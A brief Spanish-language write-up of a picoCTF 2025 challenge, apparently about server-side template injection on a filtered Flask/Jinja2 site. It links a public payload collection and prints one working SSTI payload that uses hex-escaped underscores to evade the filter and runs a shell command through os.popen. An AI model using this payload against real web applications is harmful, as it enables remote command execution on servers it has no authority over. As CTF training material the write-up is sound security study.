 ### Descripcion
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)I heard templating is a cool and modular way to build web apps! Check out my website [here](http://shape-facility.picoctf.net:52031/)!
### Solucion
Este reto es la continuacion del otro y si lo logre hacer en el evento de picoCTF2025
Si nosotros pasabamos lo que pasamos en el reto anterior, esto nos decia que estaba filtrando por algo.
Hicimos varios intentos, y fuimos viendo que filtraba por algunas cosas y ahi vemos.
Entonces nos fuimos a payloads all the things la vieja confiable, y buscamos un filtro que nos sirva, en este caso, este sirvió

Aqui hay una seccion de bypass
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md


```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```
### Tags
